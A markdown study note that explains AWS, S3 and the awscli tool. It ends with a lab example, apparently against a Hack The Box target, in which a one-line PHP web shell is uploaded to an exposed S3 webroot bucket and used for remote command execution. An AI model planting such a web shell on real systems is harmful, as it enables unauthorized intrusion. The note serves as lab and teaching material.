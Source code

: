 # Amazon

## Content
- []()
- []()
- []()
- []()
- []()

----
## [AWS](https://aws.amazon.com/)
> Amazon Web Services offers a broad set of global cloud-based products including compute, storage, databases, analytics, networking, mobile, developer tools, management tools, IoT, security, and enterprise applications: on-demand, available in seconds, with pay-as-you-go pricing
- It's basically Amazon's SaaS cloud computing platform ([doc](https://aws.amazon.com/what-is-aws/?nc1=f_cc)).
- One of those cloud services AWS offers is their **_storage_** option: Amazon S3.

## [Amazon S3](https://aws.amazon.com/s3/)
> Amazon Simple Storage Service (Amazon S3)
- Amazon Simple Storage Service (Amazon S3) is an object storage service.
  - Customers can use Amazon S3 to store and protect any amount of data for a range of use cases.
  - Amazon S3 provides management features so that you can optimize, organize, and configure access to your data to meet your specific requirements.
- Amazon S3 stores data as _objects_ within _buckets_.
  - An [objects](https://docs.aws.amazon.com/AmazonS3/latest/userguide/UsingObjects.html) is a file and any metadata that describes the file.
    - Objects are the fundamental entities stored in Amazon S3.
    - Each object can be up to 5 TB in size.
  - A _[bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html)_ is a container for objects. 

## [awscli](https://aws.amazon.com/cli/)
> The AWS Command Line Interface (AWS CLI) is a unified tool to manage your AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- You can interact with AWS, including an S3 bucket, with `awscli` (AWS Command Line Interface)

### Install
```
apt install awscli
```

### Configure
```
aws configure
```
- When prompted, just use an arbitrary value for the responses to the required values (e.g., "temp"). 

### List S3 Objects
- Use the `ls` command to list the objects and common prefixes under (in) the specified bucket:
```
aws --endpoint=http://s3.[domain name] s3 ls s3://[domain name]
# Results, example (for s3.thetoppers.htb): 
#                          PRE  images/
#  2024-02-24 15:02:08      0  .htaccess
#  2024-02-24 15:02:08  11952  index.php
```
- This particular example is that of the webroot of a website. An Apache server is using this S3 bucket as storage for the website's files. 

### Copy Files to an S3 Bucket
- In the example above, we could try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.
- Continuing with that example...
```
# create a PHP file to upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# upload that file with awscli
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
- Test that uploaded file by accessing it through the website: `http://thetoppers.htb/shell.php?cmd=id`
- If the response from the server contains the output of the OS command `id`, then we have code execution on the box. Now you'd just need to work out a reverese shell, etc. 








